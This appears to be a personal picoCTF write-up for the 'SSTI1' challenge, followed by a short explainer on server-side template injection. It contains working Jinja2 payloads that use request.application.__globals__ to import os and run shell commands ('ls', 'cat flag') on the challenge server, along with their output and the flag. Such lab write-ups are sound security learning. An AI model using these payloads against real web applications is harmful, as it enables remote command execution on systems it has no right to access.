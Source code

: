 # Web Gauntlet
---
# SSTI1 

Was provided with a website: http://rescued-float.picoctf.net:61245/ 

Its a python server, so its most probably gonna be jinja2. I found this using Burp Suite by examining the server name in the GET requests.   
![](assets/burp1.png)


As the name of the challenge suggests, I have to implement server side template injection.
I learnt what is Server Side Template Injection using the reference provided in the end.  
This is how the website looks like: 

![](assets/home.png)

On providing input of hello, the website is redirected to  http://rescued-float.picoctf.net:61245/announce and displays this:  

![](assets/hello.png)

Providing input of `{{ 7*7 }}` gave me output of 49, so its confirmed that its jinja2. 
Now  I can begin crafting my payload 

My ultimate aim is to check what files are there on the server and then read those files to get the flag. 
What I need to do is do remote command execution, basically run, 'ls', 'cat' etc. on the server via the template injection. 

After referring to the reference provided below, I created this payload: 
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

Output: 
```
# __pycache__ app.py flag requirements.txt
```
What this does is basically , runs the command `ls`  on the server and returns its output. 
Break down: 
1. `request.application` - Accesses the Flask application object through request context
2. `__globals__` - Gets the global variables of the application module 
3. `.__builtins__` - Accesses Python's built-in functions (like `open`, `eval`, `__import__`, etc.)
4. `.__import__('os')` - Imports the `os` module
5. `.popen('id')` - Opens a pipe to execute the `id` command in the shell. `popen()` runs shell commands and returns a file-like object
6. `.read()` - Reads the output from the command

Now as I know the file `flag` is present in the present working directory. I can read it using`cat`. 

Input: 
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

Output: 
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}
```

flag:`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}`
#### What is SSTI ? 

A server side template injection is a vulnerability that occurs when a server renders user input as a template of some sort. Templates can be used when only minor details of a page need to change from circumstance to circumstance. For example, depending on the IP that accesses a site, the site may look like:

```htmlmixed=
<h1>Welcome to the page!</h1>
<u>This page is being accessed from the remote address: {{ip}}</u>
```

Instead of creating a whole new page per person that accesses the site, it will simply render the remote address into the `{{ip}}` variable, while reusing the rest of the HTML for each person request the server receives to that endpoint.

This can be abused, since some template engines support some fairly complex functionality, that eventually allow for developers to run commands or file contents straight from the template.

### Reference: 

https://onsecurity.io/article/server-side-template-injection-with-jinja2/

---
# Cookies 


 


